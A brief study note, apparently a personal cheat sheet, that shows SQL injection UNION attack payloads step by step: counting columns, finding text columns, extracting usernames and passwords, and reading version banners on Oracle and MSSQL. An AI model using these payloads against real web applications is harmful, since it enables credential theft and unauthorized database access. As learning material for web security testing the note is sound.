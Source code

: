 ### Union
SQL injection UNION attack, determining the number of columns returned by the query:  
`'+UNION+SELECT+NULL--`  
keep adding nulls until the page is returned, now we know how many columns there  
Now we take the attack further by checking if certain columns contain a string:
`'union%20select%20null%2c'STRING'%2cnull--`  
As a contrived example if we determine that the first two columns contain strings, we can steal creds:  
`'union%20select%20username%2cpassword%20from%20users--`  
If we enumerate that there are two columns and only the second one contains text, we can retrieving multiple values in a single column using string concatenation eg |null|username+passord|  
`'+UNION+SELECT+NULL,username||'~'||password+FROM+users--`  
For oracle, remember we need to select from a table, so after determining that the DB we are attacking has two columns with text:  
`'union+select+banner,null+from+v$version--`  
Again the same concept but with mssql:  
`'union+select+(select+@@version),null--%20`
